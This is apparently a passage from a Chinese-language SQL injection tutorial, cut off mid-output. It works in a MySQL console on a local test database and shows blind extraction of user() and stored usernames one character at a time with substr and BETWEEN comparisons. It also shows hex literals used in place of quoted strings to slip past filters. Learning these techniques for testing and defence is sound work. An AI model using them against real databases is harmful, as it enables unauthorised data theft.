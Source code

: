 可以得知`user()`第一个字母为`r`

---

```
mysql root@localhost:sql_injection_test> select group_concat(username) from table1
+------------------------+
| group_concat(username) |
+------------------------+
| admin,tim,mike,mike    |
+------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select substr(group_concat(username),1,1) from table1);
+---------------------------------------------------------+
| (select substr(group_concat(username),1,1) from table1) |
+---------------------------------------------------------+
| a                                                       |
+---------------------------------------------------------+
1 row in set
Time: 0.007s
mysql root@localhost:sql_injection_test> select (select substr(group_concat(username),1,1) from table1) between 'a' and 'a';
+-----------------------------------------------------------------------------+
| (select substr(group_concat(username),1,1) from table1) between 'a' and 'a' |
+-----------------------------------------------------------------------------+
| 1                                                                           |
+-----------------------------------------------------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select substr(group_concat(username),1,1) from table1) between 'b' and 'b';
+-----------------------------------------------------------------------------+
| (select substr(group_concat(username),1,1) from table1) between 'b' and 'b' |
+-----------------------------------------------------------------------------+
| 0                                                                           |
+-----------------------------------------------------------------------------+
1 row in set
Time: 0.007s
```

可以用16进制代替字符串

```
mysql root@localhost:sql_injection_test> select user() between 0x61 and 0x7a # between 'a' and 'z'
+------------------------------+
| user() between 0x61 and 0x7a |
+------------------------------+
| 1                            |
+------------------------------+
1 row in set
Time: 0.010s
mysql root@localhost:sql_injection_test> select user() between 0x726f and 0x727a # between 'ro' and 'rz'
+----------------------------------+
| user() between 0x726f and 0x727a |
+----------------------------------+
| 1                                |
+----------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select user() between 0x7270 and 0x727a # between 'rp' and 'rz'
+----------------------------------+
| user() between 0x7270 and 0x727a |
```